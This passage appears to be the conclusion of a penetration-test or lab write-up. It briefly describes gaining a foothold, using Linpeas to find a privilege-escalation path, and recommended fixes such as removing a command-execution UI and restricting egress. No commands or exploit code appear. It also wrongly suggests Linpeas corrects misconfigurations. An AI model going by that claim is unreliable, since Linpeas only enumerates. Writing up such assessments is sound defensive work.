
I deliberately narrowed down my confirmation of a foothold to a focused vertical escalation plan and, after that, I used Linpeas to guide me, so I limited the unnecessary noise and quickly found a reliable escalation path. Linpeas was not a solution that made everything instantly; I still checked the escalation manually and carried it out, but it was very helpful in cutting down the time to find the most valuable leads. As a corrective measure, I suggest that the server-side command execution UI be removed, strict auth on admin endpoints be enforced, directory listing be disabled, egress from web hosts be restricted, and file-permission or sudo misconfiguration, if any, should be corrected by Linpeas.